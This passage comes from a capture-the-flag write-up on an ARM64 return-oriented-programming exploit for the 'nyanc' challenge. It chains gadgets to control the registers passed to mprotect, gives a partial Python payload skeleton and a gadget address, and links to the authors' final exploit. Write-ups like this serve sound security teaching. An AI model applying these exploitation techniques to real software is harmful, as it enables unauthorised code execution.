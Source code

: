 - Have x0 as 0x500 (mprotect length) with the same gadget we used before
- Use gadget_3 to make x19 = gadget_1 and x20 = gadget_2
- return to gadget_4 from gadget_3, making x3 = x19 (gadget_1)
- gadget_4 calls x20 (gadget_2)
- gadget_2 gives us a controlled x30 and jumps to x3 (gadget_1)
- gadget_1 moves x0 (0x500) into x1 and returns

Here's the rough code equivalent:

```python
payload = ""

payload += p64(next_x29) + p64(gadget_3) + p64(0x0) * x (depends on stack) #returns to gadget_3

payload += p64(next_x29) + p64(gadget_4) + p64(gadget_1) + p64(gadget_2) + p64(0x0) * 4 # moves gadget_1/3 into x19/20 and returns to gadget_4

payload += p64(next_x29) + p64(next_gadget) #setting up for the next gadget and moving x19 into x3. x20 (gadget_2) is called from gadget_4
```

That was haaard, now let's see how we can control x2...

```
gadget_6 = 0x000000000004663c : mov x2, x21 ; blr x3
```

This is the only new gadget we need. It moves x21 into x2 and calls x3. We can already control x21 and x3 with the help of gadget_4 and gadget_3.

Now that we have full control over x0, x1 and x2, we just need to put it all together and shellcode the flag read. I won't go into details about that.

And that's a wrap folks, you can find our final exploit [here](https://github.com/perfectblue/ctf-writeups/blob/master/insomnihack-teaser-2019/nyanc/sol.py)

\- [Jazzy](https://twitter.com/ret2jazzy)













